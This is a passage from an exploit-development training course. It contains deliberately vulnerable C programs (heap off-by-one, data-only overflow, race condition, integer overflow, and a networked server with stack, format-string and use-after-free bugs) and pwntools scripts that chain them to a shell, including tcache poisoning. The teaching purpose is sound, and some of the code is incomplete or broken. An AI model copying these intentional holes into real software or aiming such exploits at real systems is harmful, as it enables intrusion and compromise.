    printf("[!] PWNED via off-by-one!\n");
    system("/bin/sh");
}

void create_item(int idx, const char *name, size_t size) {
    if (idx >= 10) return;
    items[idx] = malloc(sizeof(Item));
    strncpy(items[idx]->name, name, 32);  // No off-by-one here
    items[idx]->size = size;
}

void vulnerable_update(int idx, const char *name) {
    if (idx >= 10 || !items[idx]) return;

    // VULNERABILITY: Off-by-one in strncpy
    // Copies 33 bytes (32 + 1) into 32-byte buffer
    strncpy(items[idx]->name, name, 33);  // BUG: should be 32
}

void setup_target() {
    target = malloc(sizeof(Target));
    target->func_ptr = NULL;
    strcpy(target->data, "TARGET_DATA");
}

void print_items() {
    for (int i = 0; i < 10; i++) {
        if (items[i]) {
            printf("Item %d: name=%.20s, size=0x%lx\n",
                   i, items[i]->name, items[i]->size);
        }
    }
}

// Add a vulnerable function that we can trigger
void vulnerable_function() {
    char buffer[32];
    printf("Enter data for vulnerable function: ");
    fflush(stdout);
    fgets(buffer, sizeof(buffer), stdin);
    printf("Data received: %s\n", buffer);
}

// Add a function that allocates memory we can control
void* allocate_controlled_chunk(size_t size) {
    void *ptr = malloc(size);
    printf("Allocated controlled chunk at %p (size: 0x%lx)\n", ptr, size);
    return ptr;
}

// Add a more direct approach - create a target that we can directly overwrite
typedef struct {
    char buffer[32];
    void (*func_ptr)();
} DirectTarget;

DirectTarget *direct_target;

void setup_direct_target() {
    direct_target = malloc(sizeof(DirectTarget));
    direct_target->func_ptr = NULL;
    strcpy(direct_target->buffer, "DIRECT_TARGET");
}

int main() {
    // Create direct_target FIRST so it gets allocated before items
    setup_direct_target();
    setup_target();

    // Create items for off-by-one exploitation
    create_item(0, "ITEM0", 0x20);
    create_item(1, "ITEM1", 0x20);

    printf("target @ %p, direct_target @ %p\n", target, direct_target);
    printf("items[0] @ %p, items[1] @ %p\n", items[0], items[1]);
    printf("direct_target->func_ptr @ %p\n", &direct_target->func_ptr);
    print_items();

    // Get user input for vulnerable update
    printf("Enter new name for item 0: ");
    fflush(stdout);
    char name[64];
    fgets(name, sizeof(name), stdin);
    name[strcspn(name, "\n")] = 0;

    vulnerable_update(0, name);

    print_items();

    // Check if we corrupted anything
    printf("target->func_ptr: %p\n", target->func_ptr);
    printf("direct_target->func_ptr: %p\n", direct_target->func_ptr);

    if (target->func_ptr) {
        printf("Calling corrupted target function pointer...\n");
        target->func_ptr();
    } else if (direct_target->func_ptr) {
        printf("Calling corrupted direct_target function pointer...\n");
        direct_target->func_ptr();
    } else {
        printf("No direct corruption detected.\n");

        // Stage 2: Use corrupted size to trigger heap overlap
        printf("Attempting heap overlap exploitation...\n");

        // The off-by-one corrupted items[0]->size from 0x20 to 0x40
        // Now we can use this to create overlapping chunks

        // Calculate offset using signed arithmetic
        ssize_t offset_to_direct = (char*)&direct_target->func_ptr - (char*)items[0];
        printf("Offset from items[0] to direct_target->func_ptr: %ld (0x%lx)\n",
               offset_to_direct, (size_t)offset_to_direct);

        // Check if we can write backwards (direct_target is before items[0])
        if (offset_to_direct < 0 && offset_to_direct > -0x1000) {
            printf("Performing backward write via corrupted heap chunk...\n");

            // Use the corrupted size to write backwards
            // items[0]->name now has effective size of 0x40 due to corruption
            // We can write beyond the 32-byte boundary
            char *write_ptr = (char*)items[0]->name + offset_to_direct;
            printf("Writing win() address to %p\n", write_ptr);

            // Directly write win function pointer
            *(void**)write_ptr = win;
            printf("Backward write completed!\n");

            // Verify and call
            if (direct_target->func_ptr == win) {
                printf("Backward write successful! Calling win()...\n");
                direct_target->func_ptr();
            } else {
                printf("Write verification failed: func_ptr = %p, expected %p\n",
                       direct_target->func_ptr, win);
            }
        } else if (offset_to_direct > 0 && offset_to_direct < 0x1000) {
            printf("Performing forward write via corrupted heap chunk...\n");
            char *write_ptr = (char*)items[0]->name + offset_to_direct;
            printf("Writing win() address to %p\n", write_ptr);
            *(void**)write_ptr = win;
            printf("Forward write completed!\n");

            if (direct_target->func_ptr == win) {
                printf("Forward write successful! Calling win()...\n");
                direct_target->func_ptr();
            }
        } else {
            printf("Offset %ld (0x%lx) not suitable for exploitation\n",
                   offset_to_direct, (size_t)offset_to_direct);
        }

        // Try vulnerable function as fallback
        printf("Trying vulnerable function for code execution...\n");
        vulnerable_function();
    }

    return 0;
}
```

**Exploitation Strategy**:

1. **Heap Layout**: Create adjacent chunks to control what gets corrupted.
2. **Partial Overwrite**: Use off-by-one to modify size field or least significant byte of pointer.
3. **Chunk Overlap**: Corrupted size leads to overlapping chunks during free/malloc.
4. **Arbitrary Write**: Use overlapping chunks to write to arbitrary addresses.

**pwntools Exploit Example**:

```python
#!/usr/bin/env python3
#~/exploit/offbyone_exploit.py
"""
Off-by-one exploitation demo
Shows how a single-byte overflow can lead to arbitrary write
"""
from pwn import *

binary = './offbyone'
elf = ELF(binary)
context.binary = elf

def exploit():
    p = process(binary)

    # Get addresses - now includes direct_target
    line = p.recvline().strip().decode()
    # Parse "target @ ADDR, direct_target @ ADDR"
    parts = line.split(', ')
    target_addr = int(parts[0].split('@ ')[1], 16)
    direct_target_addr = int(parts[1].split('@ ')[1], 16)

    # Get item addresses from second line
    line2 = p.recvline().strip().decode()
    # Parse "items[0] @ ADDR, items[1] @ ADDR"
    item_parts = line2.split(', ')
    item0_addr = int(item_parts[0].split('@ ')[1], 16)
    item1_addr = int(item_parts[1].split('@ ')[1], 16)

    # Get direct_target func_ptr address
    line3 = p.recvline().strip().decode()
    # Parse "direct_target->func_ptr @ ADDR"
    direct_func_ptr_addr = int(line3.split('@ ')[1], 16)

    log.info(f"target @ {hex(target_addr)}")
    log.info(f"direct_target @ {hex(direct_target_addr)}")
    log.info(f"items[0] @ {hex(item0_addr)}")
    log.info(f"items[1] @ {hex(item1_addr)}")
    log.info(f"direct_target->func_ptr @ {hex(direct_func_ptr_addr)}")

    # Calculate offset from item0->name to target->func_ptr
    # item0 layout: [name=32][size=8] = 40 bytes
    # target layout: [func_ptr=8][data=16] = 24 bytes
    # We need to overflow item0->name into adjacent chunk's metadata
    # and eventually into target->func_ptr

    # First, let's see the initial state
    p.recvuntil(b'Item 0: ')
    item0_info = p.recvline().decode().strip()
    p.recvuntil(b'Item 1: ')
    item1_info = p.recvline().decode().strip()

    log.info(f"Initial item0: {item0_info}")
    log.info(f"Initial item1: {item1_info}")

    # Get win function address
    win_addr = elf.symbols['win']
    log.info(f"win function @ {hex(win_addr)}")

    # Calculate direct offset to target->func_ptr
    # From addresses: target @ 0x32be02a0, items[0] @ 0x32be02c0
    # target->func_ptr is at target + 0 = 0x32be02a0
    # items[0]->name is at items[0] + 0 = 0x32be02c0
    # Distance: 0x32be02c0 - 0x32be02a0 = 0x20 (32 bytes)

    # We need to overflow backwards by 32 bytes to reach target->func_ptr
    # But we only have 1 byte overflow, so we need to corrupt heap metadata
    # to create chunk overlap that gives us write access to target

    # Strategy: Corrupt item0 siz
[... truncated for digest; original source remains in the source folder ...]

#### Exercise: Data-Only Attack

**Context**: CFG (Windows) and CET (Intel) are becoming ubiquitous. Control-flow hijacking is increasingly blocked. Data-only attacks are the future.

**Challenge**: Achieve privilege escalation WITHOUT corrupting any code pointers.

```c
// data_challenge.c - Modern data-only attack scenario
// Compile: gcc -fstack-protector-all -fcf-protection=full -o data_challenge data_challenge.c
// Note: All mitigations enabled! Stack canary, CET, etc.

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define MAX_ITEMS 10
#define ITEM_SIZE 32

typedef struct {
    char name[ITEM_SIZE];
    int quantity;
    float price;
} Item;

typedef struct {
    char username[32];
    int user_id;
    int permission_level;    // 0=guest, 1=user, 2=admin
    float balance;
    Item cart[MAX_ITEMS];
    int cart_count;
} UserSession;

UserSession session;

void init_session() {
    memset(&session, 0, sizeof(session));
    session.user_id = getpid();
    session.permission_level = 0;  // Guest by default
    session.balance = 100.0;
}

void set_username() {
    printf("Enter username: ");
    // VULNERABILITY: No bounds check!
    // Username buffer is 32 bytes, but we read up to 256
    read(0, session.username, 256);  // OVERFLOW into user_id, permission_level
}

void add_item() {
    if (session.cart_count >= MAX_ITEMS) {
        printf("Cart full!\n");
        return;
    }

    printf("Item name: ");
    fgets(session.cart[session.cart_count].name, ITEM_SIZE, stdin);
    session.cart[session.cart_count].name[strcspn(session.cart[session.cart_count].name, "\n")] = 0;

    printf("Quantity: ");
    scanf("%d", &session.cart[session.cart_count].quantity);
    getchar();

    printf("Price: ");
    scanf("%f", &session.cart[session.cart_count].price);
    getchar();

    session.cart_count++;
}

void admin_panel() {
    if (session.permission_level < 2) {
        printf("Access denied. Permission level: %d (need 2)\n", session.permission_level);
        return;
    }

    printf("\n=== ADMIN PANEL ===\n");
    printf("User ID: %d\n", session.user_id);
    printf("Permission: %d\n", session.permission_level);
    printf("Balance: $%.2f\n", session.balance);
    printf("Executing admin shell...\n");
    system("/bin/sh");
}

void show_status() {
    printf("\n=== Session Status ===\n");
    printf("Username: %s", session.username);
    printf("User ID: %d\n", session.user_id);
    printf("Permission Level: %d\n", session.permission_level);
    printf("Balance: $%.2f\n", session.balance);
    printf("Cart items: %d\n", session.cart_count);
}

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);

    printf("=== E-Commerce Session (Data-Only Challenge) ===\n");
    printf("Struct layout: username[32] | user_id[4] | permission_level[4] | balance[4]\n");
    printf("Goal: Get permission_level = 2 without corrupting code pointers!\n\n");

    init_session();

    char choice;
    while (1) {
        printf("\n1) Set username\n2) Add item\n3) Admin panel\n4) Show status\n5) Exit\n> ");
        choice = getchar();
        getchar();

        switch (choice) {
            case '1': set_username(); break;
            case '2': add_item(); break;
            case '3': admin_panel(); break;
            case '4': show_status(); break;
            case '5': return 0;
        }
    }
}
```

**Why Data-Only Attacks Are the Future**:

```text
┌────────────────────────────────────────────────────────────────┐
│              Modern Mitigation Landscape                        │
├────────────────────────────────────────────────────────────────┤
│                                                                 │
│  Stack Canary --> Blocks: Stack buffer overflow to ret addr   │
│                   Bypassed by: Data-only (no ret overwrite)    │
│                                                                 │
│  DEP/NX --------> Blocks: Shellcode on stack/heap              │
│                   Bypassed by: Data-only (no code execution)   │
│                                                                 │
│  ASLR ----------> Blocks: Hardcoded addresses                  │
│                   Bypassed by: Data-only (relative corruption)  │
│                                                                 │
│  CFG (Windows) -> Blocks: Indirect call to arbitrary address   │
│                   Bypassed by: Data-only (no indirect calls)    │
│                                                                 │
│  CET (Intel) ---> Blocks: ROP, JOP via return/jump corruption  │
│                   Bypassed by: Data-only (no control flow change)│
│                                                                 │
│  ════════════════════════════════════════════════════════════  │
│  DATA-ONLY ATTACKS BYPASS ALL OF THESE!                         │
│  ════════════════════════════════════════════════════════════  │
└────────────────────────────────────────────────────────────────┘
```

**Real-World Data-Only Targets**:

| Target Type          | Example                 | Impact                |
| -------------------- | ----------------------- | --------------------- |
| Permission flags     | `is_admin`, `user_role` | Privilege escalation  |
| Authentication state | `is_authenticated`      | Auth bypass           |
| Pointer indices      | `array_index`           | Arbitrary read/write  |
| Object references    | `file_descriptor`       | File access           |
| Crypto keys          | `session_key`           | Decryption            |
| Network config       | `allowed_hosts`         | Access control bypass |

**Defense**: These attacks require **data-flow integrity (DFI)**, not just control-flow integrity. DFI is still largely a research topic.

#### Exercise: Logic Bug Exploitation

**Challenge**: Exploit without memory corruption

```c
// logic_challenge.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <pthread.h>

int balance = 1000;
pthread_mutex_t lock = PTHREAD_MUTEX_INITIALIZER;

void withdraw(int amount) {
    // Check balance
    if (amount > balance) {
        printf("Insufficient funds! Balance: %d\n", balance);
        return;
    }

    // Simulate processing delay
    usleep(100);  // VULNERABILITY: Time window!

    // Perform withdrawal
    pthread_mutex_lock(&lock);
    balance -= amount;
    pthread_mutex_unlock(&lock);

    printf("Withdrew %d. New balance: %d\n", amount, balance);
}

void* race_thread(void *arg) {
    int amount = *(int*)arg;
    withdraw(amount);
    return NULL;
}

int main() {
    printf("Race Condition Challenge\n");
    printf("Initial balance: %d\n", balance);
    printf("Goal: Withdraw more than your balance!\n\n");

    int amount = 800;

    // Create multiple threads trying to withdraw
    pthread_t threads[5];
    for (int i = 0; i < 5; i++) {
        pthread_create(&threads[i], NULL, race_thread, &amount);
    }

    for (int i = 0; i < 5; i++) {
        pthread_join(threads[i], NULL);
    }

    printf("\nFinal balance: %d\n", balance);

    if (balance < 0) {
        printf("SUCCESS! You've withdrawn more than you had!\n");
    }

    return 0;
}
```

### Key Takeaways

1. **Logic bugs bypass mitigations**: DEP/ASLR/CFG don't protect against logic flaws
2. **Type confusion is powerful**: Treating objects as wrong type leads to corruption
3. **UAF gives control**: Dangling pointers let attackers control object contents
4. **Data-only attacks work**: Corrupting non-pointer data achieves goals
5. **Race conditions exist everywhere**: Check-use gaps are exploitable

### Discussion Questions

1. Why can't Control Flow Integrity (CFG/CET) stop data-only attacks?
2. How does type confusion differ from a traditional buffer overflow?
3. In the race condition example, why doesn't adding a mutex fully fix the bug?
4. What makes UAF exploitation reliable compared to stack overflows?

## Day 7: Integer Overflows and Putting It All Together

- **Goal**: Understand integer overflow exploitation and complete a multi-stage exploit.
- **Activities**:
  - _Online Resources_:
    - [Integer Security](https://www.sei.cmu.edu/downloads/sei-cert-c-coding-standard-2016-v01.pdf)
    - [Catching Integer Overflows](https://www.invicti.com/learn/integer-overflow)
  - _Tool Setup_:
    - UBSan (Undefined Behavior Sanitizer)
    - Static analysis tools
  - _Exercise_:
    - Exploit integer overflow leading to buffer overflow
    - Build complete multi-stage exploit chain

### Deliverables

- **PoC input**: a concrete `(count, size, data)` (or equivalent) that triggers the overflow, with the math shown
- **Primitive proof**: demonstrated out-of-bounds write / heap overflow caused by the overflow
- **Exploit**: a pwntools script that completes the multi-stage chain (reaches code execution)
- **Notes**: root cause + the minimal safe fix (bounds/overflow checks)

### Understanding Integer Overflows

**What is Integer Overflow?**:

- Arithmetic result exceeds type's maximum value
- Wraps around to minimum (or vice versa)
- Can lead to unexpected behavior

**Examples**:

```c
// Signed overflow
int8_t x = 127;
x = x + 1;  // Wraps to -128 (undefined behavior!)

// Unsigned overflow
uint8_t y = 255;
y = y + 1;  // Wraps to 0 (defined behavior)

// Width conversion
uint32_t big = 0x100000000;
uint16_t small = (uint16_t)big;  // Truncates to 0

// Sign conversion
int negative = -1;
unsigned int positive = negative;  // Becomes 0xFFFFFFFF
```

### Vulnerable Pattern: Size Calculation

**Common Vulnerability**:

```c
void process_data(int count) {
    int size = count * sizeof(int);  // Integer overflow!
    int *buffer = malloc(size);

    for (int i = 0; i < count; i++) {
        buffer[i] = i;  // Out of bounds if size overflowed!
    }

    free(buffer);
}

// Attack:
// count = 0x40000000
// size = 0x40000000 * 4 = 0x100000000 (overflows to 0!)
// malloc(0) succeeds with small allocation
// Loop writes far beyond allocated space
```

**Exploitable Example** (int_overflow.c):

```c
// ~/exploit/int_overflow.c
// make disabled SOURCE=int_overflow.c BINARY=int_overflow
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <stdbool.h>

int main(int argc, char **argv) {
    if (argc < 3) {
        printf("Usage: %s <count> <data>\n", argv[0]);
        return 1;
    }

    int count = atoi(argv[1]);
    char *data = argv[2];

    // Vulnerable calculation
    int size = count + strlen(data);  // Can overflow!

    if (size > 0) {  // Check passes with negative overflow
        char *buffer = malloc(size);
        strcpy(buffer, data);
        printf("Allocated %d bytes\n", size);
        free(buffer);
    }

    return 0;
}
```

**Exploitation**:

```python
#!/usr/bin/env python3
#~/exploit/41.py
from pwn import *

binary = './int_overflow'

# In 32-bit: -990 = 4294966306
count = -990

p = process([binary, str(count), data])
output = p.recvall()
print(output)

### Real-World Example: CVE-2023-4863 (libwebp)

This critical vulnerability (CVSS 8.8) affected Chrome, Firefox, and billions of devices. It was a heap buffer overflow in the WebP lossless compression (VP8L) decoder, caused by improper handling of Huffman table sizes.

**Simplified Vulnerability Concept**:

```c
// The actual bug was in BuildHuffmanTable() - simplified here
// Vulnerable pattern: size calculation without proper validation

uint32_t table_size = CalculateTableSize(code_lengths);
// table_size could be larger than allocated buffer!

HuffmanCode* table = (HuffmanCode*)malloc(initial_size);

// Later, when building the table:
for (int i = 0; i < num_codes; i++) {
    // Writes beyond allocated buffer if table_size > initial_size
    table[index++] = code;  // HEAP OVERFLOW!
}
```

**Exploitation Flow**:

1. Craft malicious WebP image with specific Huffman code lengths
2. Trigger heap overflow when image is decoded
3. Corrupt adjacent heap metadata or objects
4. Achieve code execution in browser renderer process

**Key Lesson**: Integer-related bugs in size calculations are extremely common in parsers (images, fonts, documents) and lead to heap overflows. Always validate calculated sizes before use.

# Compile with UBSan (signed-integer-overflow is part of undefined sanitizer)
gcc -fsanitize=undefined int_overflow.c -o int_overflow_ubsan

### Multi-Stage Exploit Challenge

**Final Challenge**: Combine multiple techniques

**Vulnerable Application** (challenge.c):

```c
//~/exploit/challenge.c
//gcc -g -O0 -fno-stack-protector -no-pie -z execstack -o challenge challenge.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>

typedef struct {
    char name[32];
    int age;
    void (*print)(void);
} User;

void normal_print() {
    printf("Normal user\n");
}

void admin_print() {
    printf("Admin access!\n");
    system("/bin/sh");
}

User *users[10];
int user_count = 0;

void create_user(char *name, int age) {
    if (user_count >= 10) {
        printf("Max users reached\n");
        return;
    }

    // Vulnerable: integer overflow in size calculation
    int name_len = strlen(name);
    int total_size = sizeof(User) + name_len;  // Can overflow!

    User *user = malloc(total_size);
    strcpy(user->name, name);  // Buffer overflow if allocation small!
    user->age = age;
    user->print = normal_print;

    users[user_count++] = user;
    printf("User created at %p\n", user);
}

void delete_user(int index) {
    if (index < 0 || index >= user_count) {
        printf("Invalid index\n");
        return;
    }

    free(users[index]);
    // BUG: Doesn't set to NULL (UAF!)
    printf("User deleted\n");
}

// Helper to write binary data (simulates arbitrary write primitive)
void write_data(int index, int offset, unsigned long value) {
    if (index < 0 || index >= user_count) {
        printf("Invalid index\n");
        return;
    }

    char *base = (char *)users[index];
    *(unsigned long *)(base + offset) = value;
    printf("Wrote %lx at offset %d\n", value, offset);
}

void print_user(int index) {
    if (index < 0 || index >= user_count) {
        printf("Invalid index\n");
        return;
    }

    // UAF if user was deleted
    User *user = users[index];
    printf("Name: %s\n", user->name);
    printf("Age: %d\n", user->age);
    user->print();  // Call function pointer
}

void list_users() {
    printf("Users: %d\n", user_count);
    for (int i = 0; i < user_count; i++) {
        printf("%d: %p\n", i, users[i]);
    }
}

void show_target() {
    printf("admin_print @ %p\n", admin_print);
}

int main() {
    char cmd[100];

    printf("Multi-Stage Exploit Challenge\n");
    show_target();

    while (1) {
        printf("\n> ");
        if (!fgets(cmd, sizeof(cmd), stdin)) break;

        if (strncmp(cmd, "create ", 7) == 0) {
            char name[100];
            int age;
            sscanf(cmd + 7, "%s %d", name, &age);
            create_user(name, age);
        } else if (strncmp(cmd, "delete ", 7) == 0) {
            int index = atoi(cmd + 7);
            delete_user(index);
        } else if (strncmp(cmd, "print ", 6) == 0) {
            int index = atoi(cmd + 6);
            print_user(index);
        } else if (strncmp(cmd, "write ", 6) == 0) {
            int index, offset;
            unsigned long value;
            sscanf(cmd + 6, "%d %d %lx", &index, &offset, &value);
            write_data(index, offset, value);
        } else if (strcmp(cmd, "list\n") == 0) {
            list_users();
        } else if (strcmp(cmd, "target\n") == 0) {
            show_target();
        } else if (strcmp(cmd, "exit\n") == 0) {
            break;
        }
    }

    return 0;
}
```

**Vulnerabilities Present**:

1. **Integer overflow** in size calculation (`total_size = sizeof(User) + name_len`) - present but not exploited
2. **Heap overflow** via strcpy (no bounds checking on name) - present but not exploited
3. **Use-after-free** (delete doesn't NULL the pointer in users array) - **EXPLOITED**
4. **Arbitrary write primitive** (write_data function) - **EXPLOITED**

**Exploitation Chain** (Multi-stage tcache poisoning):

1. **Stage 1 - Heap Leak**: Get addresses from program output (no ASLR)
2. **Stage 2 - Setup**: Create victim and target users
3. **Stage 3 - UAF**: Free victim, pointer remains in users array
4. **Stage 4 - Tcache Poisoning**: Corrupt freed chunk's fd pointer using Safe-Linking
5. **Stage 5 - Arbitrary Write**: Use write primitive to overwrite function pointer
6. **Stage 6 - Trigger**: Call print to execute admin_print() and get shell

**The Technique**: Modern tcache poisoning with Safe-Linking bypass!

**Multi-Stage Exploit (AMD64) - Tcache Poisoning**:

try to write it yourself, then look at it

```python
#!/usr/bin/env python3
"""
Multi-stage tcache poisoning exploit for glibc 2.39+

Exploitation stages:
Stage 1: Heap leak - Get addresses from program output
Stage 2: Create victim and target users
Stage 3: Free victim (enters tcache)
Stage 4: Tcache poisoning - Corrupt fd pointer using Safe-Linking bypass
Stage 5: Attempt to allocate twice (tcache poisoning may fail due to variable sizes)
Stage 6: Fallback - Direct overwrite of function pointer using write primitive
Stage 7: Trigger to get shell

Key insights:
- Modern glibc uses Safe-Linking: fd = target ^ (heap_addr >> 12)
- We need heap leak to calculate the mangled pointer
- Variable-size allocations make tcache unpredictable
- Direct overwrite is simpler when you have arbitrary write primitive
- Tcache poisoning is the technique to use when you DON'T have arbitrary write
"""

from pwn import *

binary = './challenge'
elf = ELF(binary)
context.binary = elf

admin_addr = elf.symbols['admin_print']
log.info(f"admin_print @ {hex(admin_addr)}")

def exploit():
    p = process(binary)

    # Get admin_print address
    p.recvuntil(b"admin_print @ ")
    leaked_addr = int(p.recvline().strip(), 16)
    log.success(f"Leaked admin_print: {hex(leaked_addr)}")

    # Stage 1: Create victim user and get heap address
    p.sendline(b"create victim 25")
    p.recvuntil(b"created at ")
    victim_addr = int(p.recvline().strip(), 16)
    log.info(f"Victim user at {hex(victim_addr)}")

    # Stage 2: Create target user whose function pointer we'll overwrite
    # We'll use tcache poisoning to get malloc to return target_addr
    # Then we can overwrite its function pointer
    p.sendline(b"create target 30")
    p.recvuntil(b"created at ")
    target_addr = int(p.recvline().strip(), 16)
    log.info(f"Target user at {hex(target_addr)}")

    # Calculate where the function pointer is (for reference)
    # User struct: name[32] + age(4) + padding(4) + funcptr(8)
    funcptr_addr = target_addr + 40
    log.info(f"Function pointer at {hex(funcptr_addr)}")

    # Stage 3: Free victim (goes into tcache)
    p.sendline(b"delete 0")
    log.info("Freed victim - now in tcache")

    # Stage 4: Tcache poisoning - corrupt fd pointer using Safe-Linking
    # We want the second malloc to return target_addr (not funcptr_addr!)
    # Then we can write at offset 40 to overwrite the function pointer
    heap_base = victim_addr >> 12
    mangled_ptr = target_addr ^ heap_base  # Target the USER struct, not the funcptr
    log.info(f"Heap base (>>12): {hex(heap_base)}")
    log.info(f"Mangled pointer: {hex(mangled_ptr)}")

    # Write mangled pointer to victim's fd (offset 0 in freed chunk)
    p.sendline(f"write 0 0 {mangled_ptr:x}".encode())
    p.recvuntil(b"Wrote")
    log.success("Corrupted tcache fd pointer")

    # Stage 5: Allocate twice to get target_addr
    # First malloc returns the victim chunk (removes it from tcache)
    p.sendline(b"create dummy1 25")
    p.recvuntil(b"created at ")
    first = int(p.recvline().strip(), 16)
    log.info(f"First malloc: {hex(first)}")

    # Second malloc should return our poisoned target_addr
    # But it's returning a different address - tcache poisoning failed!
    p.sendline(b"create dummy2 25")
    p.recvuntil(b"created at ")
    second = int(p.recvline().strip(), 16)
    log.info(f"Second malloc: {hex(second)}")

    if second == target_addr:
        log.success("Got arbitrary write at target user struct!")
        # Now users[1] (target) and users[3] (dummy2) point to same memory!
    else:
        log.warning(f"Expected {hex(target_addr)}, got {hex(second)}")
        log.warning("Tcache poisoning failed!")
        log.warning("")
        log.warning("Possible reasons:")
        log.warning("1. The write corrupted the tcache structure")
        log.warning("2. Malloc size mismatch (different name lengths)")
        log.warning("3. Tcache has multiple entries and we got a different one")
        log.warning("")
        log.warning("Let's try a different approach: just overwrite target directly")

        # Alternative: Since we have arbitrary write, just overwrite target's funcptr
        p.sendline(f"write 1 40 {leaked_addr:x}".encode())
        p.recvuntil(b"Wrote")
        log.success(f"Directly overwrote target's function pointer")

        p.sendline(b"print 1")
        p.recvuntil(b"Admin access!")
        log.success("Got shell via direct overwrite!")
        p.interactive()
        return

    # Stage 6: Overwrite function pointer with admin_print
    # Write at offset 40 of dummy2 (index 3)
    p.sendline(f"write 3 40 {lea
[... truncated for digest; original source remains in the source folder ...]

## Capstone Project - The Exploitation Gauntlet

- **Goal**: Apply all techniques to exploit a custom vulnerable server with multiple bugs.
- **Activities**:
  - **Analyze**: Review source code for `vuln_server`.
  - **Plan**: Identify Stack Overflow, UAF, and Format String bugs.
  - **Exploit**: Write reliable Python exploits for each.
  - **Chain**: Combine leaks and overwrites for a full RCE chain.

### Deliverables

- **Recon**: map all bugs in the server (stack, heap, format string, logic, integer)
- **Exploit chain**: a single pwntools script that chains at least two primitives (e.g., leak → heap corrupt → shell)
- **Reliability**: exploit works >90% of the time
- **Writeup**: brief explanation of which primitives you used and why

### The Challenge: VulnServer v1.0 (AMD64)

You are provided with a binary `vuln_server` running on port 1337. It has the following commands:

1. `auth <name>`: Vulnerable to Stack Overflow → **Requires ROP chain** (NX enabled!)
2. `echo <msg>`: Vulnerable to Format String → **Provides libc leak**
3. `note <id> <text>`: Vulnerable to UAF (delete/use).

**VulnServer Source Code** (vuln_server.c):

```c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <stdint.h>
#include <syslog.h>

#define PORT 1337
#define MAX_NOTES 10
#define MAX_DATA_SIZE 4096

typedef struct {
    char content[64];
    void (*display)(char *);
} Note;

typedef struct {
    char *data;
    size_t size;
    size_t capacity;
} DataBuffer;

Note *notes[MAX_NOTES];
DataBuffer *data_buffer = NULL;
int authenticated = 0;
int current_client_fd = -1;  // Store current client FD globally

void print_note(char *content) {
    printf("Note: %s\n", content);
}

// FIXED: Now redirects stdin/stdout/stderr to the socket!
void admin_shell(char *unused) {
    // Log to syslog for debugging
    syslog(LOG_INFO, "admin_shell() called! client_fd=%d", current_client_fd);

    if (current_client_fd != -1) {
        // Redirect stdin, stdout, stderr to the socket
        dup2(current_client_fd, 0);  // stdin
        dup2(current_client_fd, 1);  // stdout
        dup2(current_client_fd, 2);  // stderr

        syslog(LOG_INFO, "File descriptors redirected");
    }

    write(current_client_fd, "Admin access granted!\n", 22);
    syslog(LOG_INFO, "About to call system(/bin/sh)");

    // Use execve to replace the process (never returns)
    char *args[] = {"/bin/sh", "-i", NULL};
    char *env[] = {NULL};
    execve("/bin/sh", args, env);

    // If execve fails, try system
    system("/bin/sh -i");

    syslog(LOG_INFO, "Shell exited, calling exit()");

    // Make sure we never return to the caller
    exit(0);
}

// Vulnerable: Stack buffer overflow
// FIXED: Use memcpy with explicit length to allow null bytes
void handle_auth(int client_fd, char *data) {
    char username[64];
    char response[128];

    // VULNERABLE: No bounds checking!
    // We need to get the length from somewhere that includes null bytes
    // Since data comes from the network buffer, we'll copy a fixed large amount
    memcpy(username, data, 200);  // VULNERABLE! Copies way more than buffer size

    if (strcmp(username, "admin") == 0) {
        authenticated = 1;
        sprintf(response, "Welcome, %s!\n", username);
    } else {
        sprintf(response, "Access denied for %s\n", username);
    }

    write(client_fd, response, strlen(response));
}

// Vulnerable: Format string
void handle_echo(int client_fd, char *data) {
    char response[256];

    snprintf(response, sizeof(response), data);
    strcat(response, "\n");

    write(client_fd, response, strlen(response));
}

// Vulnerable: Use-after-free
void handle_note(int client_fd, char *data) {
    char cmd[16];
    int id;
    char content[64];
    char response[128];

    sscanf(data, "%15s %d %63[^\n]", cmd, &id, content);

    if (id < 0 || id >= MAX_NOTES) {
        write(client_fd, "Invalid ID\n", 11);
        return;
    }

    if (strcmp(cmd, "create") == 0) {
        notes[id] = malloc(sizeof(Note));
        strcpy(notes[id]->content, content);
        notes[id]->display = print_note;
        sprintf(response, "Note %d created\n", id);
    } else if (strcmp(cmd, "delete") == 0) {
        free(notes[id]);
        sprintf(response, "Note %d deleted\n", id);
    } else if (strcmp(cmd, "show") == 0) {
        if (notes[id]) {
            notes[id]->display(notes[id]->content);
            sprintf(response, "Note %d displayed\n", id);
        } else {
            sprintf(response, "Note %d is empty\n", id);
        }
    } else if (strcmp(cmd, "edit") == 0) {
        Note *n = malloc(sizeof(Note));
        strcpy(n->content, content);
        n->display = print_note;
        sprintf(response, "Edit buffer created\n");
    } else {
        sprintf(response, "Unknown note command\n");
    }

    write(client_fd, response, strlen(response));
}

// Vulnerable: Integer overflow
void handle_data(int client_fd, char *data) {
    char cmd[16];
    unsigned int size;
    char response[128];

    sscanf(data, "%15s %u", cmd, &size);

    if (strcmp(cmd, "alloc") == 0) {
        if (size > MAX_DATA_SIZE) {
            write(client_fd, "Size too large\n", 15);
            return;
        }

        if (data_buffer) {
            free(data_buffer->data);
            free(data_buffer);
        }

        data_buffer = malloc(sizeof(DataBuffer));
        data_buffer->capacity = size + 1;  // VULNERABLE!
        data_buffer->data = malloc(data_buffer->capacity);
        data_buffer->size = 0;

        sprintf(response, "Allocated %u bytes\n", size);
        write(client_fd, response, strlen(response));
    } else if (strcmp(cmd, "write") == 0) {
        if (!data_buffer) {
            write(client_fd, "No buffer allocated\n", 20);
            return;
        }

        write(client_fd, "Send data: ", 11);
        ssize_t n = read(client_fd, data_buffer->data, data_buffer->capacity);
        if (n > 0) {
            data_buffer->size = n;
            sprintf(response, "Wrote %zd bytes\n", n);
            write(client_fd, response, strlen(response));
        }
    } else if (strcmp(cmd, "read") == 0) {
        if (!data_buffer || data_buffer->size == 0) {
            write(client_fd, "No data to read\n", 16);
            return;
        }

        write(client_fd, "Data: ", 6);
        write(client_fd, data_buffer->data, data_buffer->size);
        write(client_fd, "\n", 1);
    } else {
        write(client_fd, "Unknown data command\n", 21);
    }
}

void handle_client(int client_fd) {
    char buffer[512];
